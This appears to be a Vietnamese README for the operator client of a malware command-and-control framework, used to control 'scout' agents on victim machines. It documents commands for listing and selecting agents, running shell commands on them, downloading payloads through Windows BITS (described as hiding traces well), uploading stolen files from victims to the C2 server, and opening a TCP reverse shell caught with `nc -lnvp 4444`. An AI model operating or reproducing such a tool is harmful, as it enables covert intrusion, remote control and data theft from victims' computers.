







# Hướng dẫn sử dụng client.py

client.py sẽ connect tới server để điều khiển các agent (tên gọi chung cho scout malware trên máy victim)
`client.py <c2 server> <token>`  
Ví dụ  
`client.py http://malware-test.local:80 test`

command trên sẽ connect C2 `http://malware-test.local` port 80 với token là `test`. Khi connect thành công sẽ có hình như sau


## Danh sách command để điều khiển agent

### help
Command help

### listagent
List danh sách agent đã connect tới C2

Như VD ở trên sau khi thực thi command `listagent`, ta có danh sách 1 agent đã connect tới C2 với thông tin như sau
```
Agent ID: 1703741116
Tên máy tính/User name: DESKTOP-O6RCQQC/johndoe
Lần cuối connect tới C2: 2024-05-07 14:43:24.982442
```

### select
Select agent cần tương tác. VD sau khi select thành công agent với Id `1703741116` sẽ có kết quả sau


### info
Command info hiện thông của Agent đang chọn. Command này cũng dùng để hiện kết quả lệnh vừa được agent thực thi (Last job result)


```
Job to be executed next: Lệnh được thực thi khi agent kết nối đến server lần tiếp theo
Job to be executed next (params): Param của lệnh được thực thi tiếp theo
Last job: Lệnh trước đó được agent thực hiện
Last job result: Kết quả sau khi agent thực hiện lệnh
```

### setsleep
Set thời gian sleep của Agent. Thời gian sleep là thời gian mỗi lần agent kết nối đến C2

VD như trên hình sau là kết quả khi dùng lệnh `setsleep 20`. Khi gõ command info sleep time của agent đã set thành công thành 20s


### cmd
Lệnh chạy cmd như webshell. Như hình dưới là VD khi thực hiện lệnh `cmd whoami`


### download
Lệnh chạy download file từ url và drop vào path. Dùng chức năng bits để download. Ưu điểm là mượn tay service của windows để download nên che dấu vết rất tốt nhưng nhược điểm là chậm. Vẫn không hiểu tại sao :(


### upload
Lệnh chạy upload file từ máy victim và save tại thư mục "FileUpload/<Computername@Username>/". Các thư mục upload này có thể access trực tiếp trên web qua đường dẫn `<C2 URL>/file_storage?token=<token>`

### reverseshell
Lệnh dùng để tạo TCP reverse. Có thể dùng netcat trên server để hứng reverse shell (VD: `nc -lnvp 4444`)